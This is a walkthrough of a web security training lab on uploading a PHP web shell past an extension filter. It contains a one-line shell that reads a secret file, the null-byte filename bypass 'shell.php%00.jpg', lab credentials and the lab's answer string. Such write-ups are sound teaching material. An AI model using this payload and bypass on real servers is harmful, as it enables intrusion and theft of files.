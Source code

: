 
### Web shell upload via obfuscated file extension : PRACTITIONER

---



> We need to read contents of the `/home/carlos/secret` file.
> Given login credentials `wiener:peter`.


> Logging in as wiener.

![](./screenshots/lab1-login.png)

> We see this my-account page.

![](./screenshots/lab1-account.png)


> Trying to upload a php shell to obtain the secret file, while having BURPSUITE PROXY HTTP history open
```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
> `shell.php`.

> Capturing the `POST` request and its response.

![](./screenshots/lab5-req.png)

> We see that we can only upload JPG and PNG files.
> If we try obfuscating the attack using null bytes.
```
shell.php%00.jpg
```
> And send the `POST` request again.

![](./screenshots/lab5-shell.png)

> We see that the file `shell.php` has been uploaded, meaning we bypassed the client side filters.

> If we now go back to the my-account page and observe the `GET` request responsible for fetching the `shell.php` file.

![](./screenshots/lab5-fetch.png)

> If we change the path to `shell.php` only and send it should work as the file we uploaded has the name `shell.php` only.

![](./screenshots/lab5-get.png)

> We see the secret.
> Copying it and submitting to complete the lab.
```
icU4hTnFLrVKfeFHIZYf6rfm0IW2z49e
```

----
